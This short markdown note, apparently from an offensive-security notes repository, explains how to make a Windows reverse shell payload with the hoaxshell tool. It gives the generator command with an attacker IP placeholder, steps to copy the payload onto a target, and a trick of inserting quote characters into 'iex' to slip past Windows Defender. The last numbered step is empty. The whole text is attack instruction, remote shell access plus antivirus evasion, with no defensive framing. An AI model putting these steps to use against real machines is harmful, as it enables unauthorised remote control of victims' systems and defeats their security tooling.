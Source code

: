 ## Create Reverse Shell Payload Via Hoaxshell
1) `hoaxshell.py -s IP_ADD -r -H "Authorization"`
2) Copy payload from kali into target
3) Obfuscate before executing command in target windows cmd line
4) ![image](https://user-images.githubusercontent.com/55113729/214117555-0a496ab7-25f5-4d8e-861e-67cec5c1b353.png)
5) Adding `'` in between `iex` helps to trick windows defender into thinking this is a regular, safe command and NOT a payload, allowing for execution into hoaxshell rev shell
6) 
